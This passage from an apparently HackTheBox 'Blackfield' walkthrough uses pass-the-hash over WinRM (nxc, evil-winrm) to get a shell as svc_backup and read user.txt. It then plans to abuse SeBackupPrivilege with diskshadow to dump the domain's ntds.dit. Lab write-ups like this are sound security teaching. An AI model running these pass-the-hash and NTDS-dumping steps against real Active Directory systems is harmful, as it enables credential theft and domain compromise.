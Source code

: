 The hash for the `Administrator` account does not work, but for the `svc_backup` account does:

```bash
$ nxc winrm 10.10.10.192 -u svc_backup -H 96<REDACTED>0d
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:96<REDACTED>0d (Pwn3d!)
```

Get a shell as `svc_backup` and compromise `user.txt`:

```bash
$ evil-winrm -i 10.10.10.192 -u svc_backup -H 96<REDACTED>0d

<SNIP>
*Evil-WinRM* PS C:\Users\svc_backup\Documents> type ..\desktop\user.txt
39<REDACTED>43
```

Check user's information:

```bash
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /all

<SNIP>

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
<SNIP>


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

We can exploit the **SeBackupPrivilege** ([_Windows Privilege Escalation: SeBackupPrivilege_](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)) and dump the `ntds.dit` database by:

* Writing a small script for the [**diskshadow**](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) utility to expose the _c:_ drive
* Convert the script in a Windows-compatible format
* Upload the script on the target
* Move to a directory with write access
* Expose the shadow copy
* Download the `ntds.dit` database
